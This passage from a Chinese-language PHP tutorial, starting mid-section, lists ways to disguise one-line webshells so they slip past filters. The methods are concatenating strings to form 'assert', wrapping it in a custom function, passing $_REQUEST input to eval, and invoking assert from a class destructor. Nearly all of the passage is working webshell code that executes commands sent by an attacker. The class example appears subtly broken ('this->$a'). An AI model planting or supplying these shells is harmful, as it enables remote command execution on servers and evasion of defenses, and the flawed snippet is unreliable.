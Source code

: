 <font style="color:rgb(77, 77, 77);">在这个马中，是将第四位和第五位，也就是</font>`<font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">xx</font>`<font style="color:rgb(77, 77, 77);">替换成</font>`<font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">rt</font>`<font style="color:rgb(77, 77, 77);">，最终拼接成为</font>`<font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">assert</font>`

<font style="color:rgb(77, 77, 77);">除了substr_replace()，还有一种拼接方法</font>

```php
<?php
	$a="a"."s";
	$b="s"."e"."rt";
	$c=$a.$b;
	$c($_POST['cmd']);
?>
```

##### 三、函数
可以利用函数来构造一句话木马

```php
<?php
	function shyshy($a){
	assert($a);
	}
	@shyshy($_POST['cmd']);
?>
```

先是构造了shyshy()这一函数 然后调用这一函数 变成一句话木马

##### 四、request请求
适用于过滤了get和post请求的的条件

```php
<?php
	$a=$_REQUEST['cmd'];
	$b="\n";
	eval($b.=$a);
?>
```

##### 五、类
可以构造一个类，利用魔术方法来拼接

```php
<?php
	class shyshy{
		public $a='';
		function __destruct(){
			assert("this->$a");
			}
		}
		$b=new shyshy();
		$b->a=$_POST['cmd'];
?>
```
